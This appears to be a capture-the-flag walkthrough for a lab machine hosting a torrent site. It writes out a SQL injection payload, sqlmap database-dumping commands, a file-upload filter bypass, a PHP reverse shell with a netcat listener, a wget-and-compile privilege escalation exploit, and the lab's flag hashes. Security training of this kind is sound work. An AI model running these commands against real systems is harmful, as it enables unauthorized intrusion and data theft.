

Nmap is a port scanner that is very versatile and is the first tool I use on every CTF. Here is the command that I always use.

`nmap -sS -n -f- v -A <ip addr>`

Great, we can see that the target machine is running Linux with Apache 2.2.12 as its web server. We can also see SSH, but lets go for the low hanging fruit first. Let’s have a look at what on the website.

Not much, and no hints the source code either. We will have to carry on enumerating. Let’s use dirbuster to perform a dictionary attack, to see if we can find something we can poke at.

Copy the settings above and then hit start.

Okay it looks like the meat and gravy of the website is hosted under the folder _torrent._ Lets go and navigate to [http://10.10.10.6/torrent/](http://10.10.10.6/torrent/)

Great, now we have loads of things to poke at. Looks like the website is hosting a torrent hoster. We currently don’t have any login credential so let’s do a basic SQL injection to see if the login panel is vulnerable.

Here we can see that I’m using the payload, `1' OR '1' = '1` . Hopefully this web server won’t be able to handle the payload. Let’s give it a go.

Well, we definatly caused an error. Let’s try and leverage this error and exploit the backend MySQL database. I will be using SQLmap to do this. First let’s find out what POST parameters are being sent when we sent that last request.

We can see that we sent the username and password parameter. Cool, now let’s just shove everything into SQLmap.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5`

Great the target is vulnerable to SQL injection. Let’s find out what tables they have.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5 --tables`

This is a no brain-er, we want to select the **users** table in the **torrenthoster **database.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5 -T users -D torrenthoster`

The data does not look right, it looks like it has been shuffled and duplicated. Either way can see that the username is Admin or admin and this user has the hash d5bfedcee289e5e05b86daad8ee3e2e2. Look’s like a MD5 hash but let’s double check with hash-identifier.

Now let take the easy option and try and use some online databases to see if the password has already been cracked.

No luck. I tried a few sites as well. There is not much point trying to manually crack this hash as it’s a CTF and if someone had cracked it it’d be on one the online databases. I think that this is a dead end. I tried running the os-pwn SQLmap option as well but could not find any writable directories. Back to square one.

Okay let’s create an account using the website, log in and then carry on poking around. Here we can see an upload button. Upload button are ideal candidate to start trying to exploit because they accept user input and allow you to upload things that the developer did not intent for you to upload.

When I do anything like, I like to connect Burp Suite to my browser so I can see what is happening behind the scenes. I tried uploading a gif, but the server requires that the you upload a torrent file. So then I tried changing the extension, but still got the same error message.

In the end I just uploaded a random torrent file that I got off the internet. Then when I clicked to the browse button. I navigated to the torrent file that I just uploaded.

We can see that we now get the option to upload a screenshot for the torrent. Looks like we will try again at uploading a shell but via this up-loader instead. We can see that we have the allowed extensions of `jpg, jpeg, gif, png` . So let’s just write some test PHP code and try to upload it. Below you can see the dangerous payload.

`<?php echo '
Hello World
'; ?>`

You have to make sure that you change Content-Type to image/png for this to work and that the file extension is a php.

Look’s like it worked.

Now we have to try and find were the image is stored on the webserver. When we ran Dirbuster there was a folder called uploads. That looks like it should be the right place.

The website changed the name of my file, but we can still execute the PHP by clicking it. How exciting.

Now let’s try a real payload. I will be using Pentest Monkeys reverse PHP code. You can grab it online or if you’re using kali it can be found at:

- /usr/share/webshells/php/php-reverse-shell.php

Let’s just modify the the hard-coded IP address and port. Then upload this instead of the hello world payload.

Start a listener then click on the PHP that we just uploaded. We should get a reverse connection to our netcat listener.

`nc -vlnp 1234`

We now have reverse shell running as the web daemon for the user. By printing the `/etc/passwd` file we can see that `george` is the account that we probably want to get into if we cannot jump straight to root.

To get the first flag, we just have to go to George's home directory and print out the user.txt file to get the hash 5e36a919398ecc5d5c110f2d865cf136.

Get root was quite trivial as we can use a well known exploit call full-nelson. To do this we need to get the c code for the exploit onto the target machine. There are plenty of ways to do this. You could transfer the file over netcat. But I prefer to localy host a webserver on my kali box with the command `service apache2 start` . Then place the exploit in the web directory `/var/www/html/exploit.c` . Next just download the file from the target machine with `wget http://<ip addr>/exploit.c` , compile it then run it.

Great now we have the final

f122331023a9393319a0370129fd9b14